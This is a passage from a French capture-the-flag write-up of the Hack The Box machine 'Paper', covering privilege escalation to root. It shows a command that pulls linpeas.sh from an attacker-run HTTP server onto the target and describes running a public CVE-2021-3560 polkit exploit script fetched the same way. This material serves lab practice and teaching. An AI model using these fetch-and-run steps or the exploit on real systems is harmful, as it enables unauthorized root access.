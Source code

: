 Désormais, le `PrivEsc` ! Nous avons un accès utilisateur, mais nous allons chercher à augmenter nos droits afin de devenir `root` et ainsi avoir le contrôle total de la machine.

Pour ce faire, j'aime lancer un scan via [LinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) (WinPeas sous Windows).

Sur toutes les machines `HTB`, l'accès vers internet et coupé. Il faut donc télécharger la dernière version du script sur notre machine "attaquante" et ensuite l'envoyer depuis notre machine vers notre cible. Puisque nous avons un accès `SSH`, nous pouvons simplement l'envoyer via `SCP`, mais je préfère une méthode plus universelle via un module `Python`.

Je vais donc vous montrer comment procéder :

1. Sur notre machine qui "attaque", il faut se placer dans le dossier contenant le script `linpeas.sh` puis lancer la commande suivante : `python3 -m http.server`.
2. Sur la "cible", il faut récupérer le script : `curl -O http://$IP_ATTAQUANT:8000/linpeas.sh`.

Une fois le script téléchargé, nous l'éxécutons. Rapidement, Linpeas détecte une vulnérabilité du côté de `sudo` :

![Paper Linpeas](/images/2022/03/Paper_Sudo_CVE.png)

Une recherche rapide sur [DDG](https://duckduckgo.com/?q=CVE-2021-3560+exploit+github&t=ffab&ia=web), nous amène vers un [dépôt Github prometteur](https://github.com/Almorabea/Polkit-exploit).

Même procédure que pour le script `linpeas.sh`, nous allons récupérer le fichier `CVE-2021-3560.py` sur notre cible et l'exécuter.

__NB : avant d'exécuter un script, quelque il soit, il est toujours très important de le lire et d'essayer de le comprendre ! Vous ne voulez surtout pas exécuter un script qui compromettrait votre machine.__

Après quelques secondes, le script nous donne un accès `root` :
